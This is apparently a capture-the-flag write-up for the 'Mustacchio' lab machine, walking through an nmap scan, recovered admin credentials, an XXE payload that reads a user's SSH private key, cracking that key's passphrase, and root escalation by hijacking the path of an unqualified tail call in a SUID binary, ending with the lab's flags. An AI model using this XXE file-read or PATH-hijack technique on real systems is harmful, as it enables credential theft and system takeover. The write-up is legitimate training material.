# MUSTACCHIO


## NMAP SCAN

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
```

## FUZZING



### /CUSTOM







```text
admin:bulldog19
```

## LOGIN



### In VIEW-SOURCE



### TEST COMMENT

Something is wrong. We know that the application is using a xml request but the parameters were null.




In code, we see that is an example request in the server.



Lets see the xml request example



## EXPLOIT XXE

* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE Injection\#detect-the-vulnerability





Remember the comment in the page code. Lets try to obtain the id\_rsa of barry to SSH Login.

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:////home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&name;</name>
  <author>myself</author>
  <com>just a comment</com>
</comment>
```



The id\_rsa is encrypted. Lets use John the Ripper.



```text
urieljames
```

### SSH LOGIN



## PRIVESC

### SUID FILES

There´s a SUID file interesting, running by root





When we run this SUID show us the log



With strings command, we found out that is calling the tail command without path



Lets Create a tail binary and add the to our path.



When we run the binary, WE BECAME ROOT!! :\)


## FLAGS

### USER.TXT

```text
62d77a4d5f97d47c5aa38b3b2651b831
```

### ROOT.TXT

```text
3223581420d906c4dd1a5f9b530393a5
```

